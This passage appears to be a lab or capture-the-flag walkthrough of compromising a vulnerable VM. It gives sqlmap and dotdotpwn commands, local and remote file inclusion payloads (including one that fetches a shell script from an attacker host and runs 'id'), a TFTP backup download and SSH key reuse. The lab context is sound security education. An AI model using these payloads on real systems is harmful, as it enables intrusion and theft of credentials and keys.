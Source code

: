 ```sh
# SQLMap using a copy of the request
sqlmap -r request.txt -p email
```

```sh
# Dot Dot Pwn Scan
# the suspect page that stood out http://192.168.56.101/index.php?page=about.php
dotdotpwn -m http-url -u http://192.168.56.101/index.php?page=TRAVERSAL -O -k "root:" -r /root/pluck/lfi.txt
```

# SSH
No vulnerabilities stuck out when conducting enumeration on this vector. The presence of this service could potentially be used, and was used later during exploitaiton.

# MySQL
Default password combinations didn't work, all attempts to authenticate were unauthorized. This service could potentially be used for privilege escalation by uploading a malicious UDF, and was placed on the back burner for later.

# HTTP - LFI Enumeration
Now that the LFI vulnerability had been confirmed, several techniques were used to determine if code execution was possible. Several of which failed. The failed attempts are listed below.

```sh
# POSTing PHP to the LFI
http://192.168.56.101/index.php?page=php://input

# Executing PHP from the log file descriptor
http://192.168.56.101/index.php?page=../../../../../proc/self/fd/1-20

# Executing PHP from a remote site
http://192.168.56.101/index.php?page=http://kali/shell.txt&cmd=id
```

After the failed attempts, the file system was enumerated to identify what users were present. On the very first attempt, the /etc/passwd file showed a huge clue. At the bottom of the passwd file, the backups user showed that the directory /backups/backup.tar allowed for TFTP access. At first I neglected the fact that it mentioned TFTP due to port scan results, but eventually the backup was retrieved via TFTP.

```sh 
tftp 192.168.56.101 -c get /backups/backup.tar
```

Instantly the home directory and var directory stood out. My first thought was to check the php file for connection strings to MySQL, viewing the source code showed that the SQL injection was a decoy. Nothing else of interest was found in the php. The home directory contained bob, paul, and peters home directories. Instantly the public and private SSH keys stood out. To confirm whether or not they were valid, each key was checked. Eventually the fourth key worked, and allowed for a connection.
